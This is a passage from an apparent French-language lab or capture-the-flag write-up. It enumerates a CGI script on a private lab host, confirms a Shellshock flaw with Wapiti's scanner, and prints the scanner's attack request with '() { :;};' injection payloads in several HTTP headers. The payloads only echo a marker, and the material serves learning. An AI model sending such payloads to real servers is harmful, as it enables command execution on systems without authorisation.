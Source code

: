 ```shellsession
$ curl -I http://192.168.56.114/cgi-bin
HTTP/1.1 404 Not Found
Date: Mon, 20 Feb 2023 21:53:33 GMT
Server: Apache/2.4.25 (Debian)
Content-Type: text/html; charset=iso-8859-1

$ curl -I http://192.168.56.114/cgi-bin/
HTTP/1.1 403 Forbidden
Date: Mon, 20 Feb 2023 21:53:36 GMT
Server: Apache/2.4.25 (Debian)
Content-Type: text/html; charset=iso-8859-1
```

Via une énumération rapide on trouve un cgi nommé `underworld` qui semble afficher l'uptime.

## Une faille anthique

`Wapiti` dispose d'un module pour la faille shellshock :

```shellsession
$ wapiti -u http://192.168.56.114/cgi-bin/underworld -m shellshock --scope url
ujson module not found, using json

 ██╗    ██╗ █████╗ ██████╗ ██╗████████╗██╗██████╗
 ██║    ██║██╔══██╗██╔══██╗██║╚══██╔══╝██║╚════██╗
 ██║ █╗ ██║███████║██████╔╝██║   ██║   ██║ █████╔╝
 ██║███╗██║██╔══██║██╔═══╝ ██║   ██║   ██║ ╚═══██╗
 ╚███╔███╔╝██║  ██║██║     ██║   ██║   ██║██████╔╝
  ╚══╝╚══╝ ╚═╝  ╚═╝╚═╝     ╚═╝   ╚═╝   ╚═╝╚═════╝  
Wapiti 3.1.6 (wapiti-scanner.github.io)
[*] Be careful! New moon tonight.
[*] Saving scan state, please wait...

[*] Launching module shellshock
URL http://192.168.56.114/cgi-bin/underworld seems vulnerable to Shellshock attack!
```

On peut regarder dans le rapport HTML généré à quoi ressemble la requête d'attaque :

```http
GET /cgi-bin/underworld HTTP/1.1
host: 192.168.56.114
connection: keep-alive
accept-language: en-US
accept-encoding: gzip, deflate, br
accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
user-agent: () { :;}; echo; echo; echo -e '\x30\x37\x39\x34\x66\x38\x35\x42\x35\x63\x41\x64\x46\x44\x32\x41\x61\x41\x31\x32\x32\x33\x35\x39\x35\x34\x41\x44\x33\x44\x32\x46';
referer: () { :;}; echo; echo; echo -e '\x30\x37\x39\x34\x66\x38\x35\x42\x35\x63\x41\x64\x46\x44\x32\x41\x61\x41\x31\x32\x32\x33\x35\x39\x35\x34\x41\x44\x33\x44\x32\x46';
cookie: () { :;}; echo; echo; echo -e '\x30\x37\x39\x34\x66\x38\x35\x42\x35\x63\x41\x64\x46\x44\x32\x41\x61\x41\x31\x32\x32\x33\x35\x39\x35\x34\x41\x44\x33\x44\x32\x46';
```
